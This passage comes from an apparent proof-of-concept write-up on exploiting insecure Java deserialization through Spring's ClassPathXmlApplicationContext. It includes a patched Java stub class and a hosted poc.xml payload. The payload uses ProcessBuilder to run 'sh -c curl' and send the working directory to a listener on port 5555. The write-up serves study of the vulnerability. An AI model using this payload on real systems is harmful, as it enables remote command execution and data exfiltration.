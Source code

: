 Also, The `ClassPathXmlApplicationContext` needs to:
* be derived from `Throwable` as it is being assigned to an object of `Throwable` type.
* have a `getMessage()` function similar to `ExceptionResponse` class as it will be called during marshaling process.

To solve these problems, we patch the `ClassPathXmlApplicationContext()` by writing a custom implementation for it, fulfilling the needed conditions.

```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable {
	
	private String message;
	
	public ClassPathXmlApplicationContext(String xmlUrl)	{
		System.out.println("[+] Inside patched ClassPathXmlApplicationContext()");
		this.message = xmlUrl;
	}	

	public String getMessage()	{
		return this.message;
	}	
}
```

On my local HTTP service running at port 8000, I hosted the following `poc.xml` file containing the application context:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <value>curl http://127.0.0.1:5555/ExploitSuccessful?pwd=$(pwd)</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

The above application context will assist in creating an object of `java.lang.ProcessBuilder` and run a command to hit my listener service hosted on port 5555. If hit, It would indicate the successful exploitation of the insecure deserialization vulnerability.

<br/>

Now we have everything in place to run the exploit, Its time to run the program.
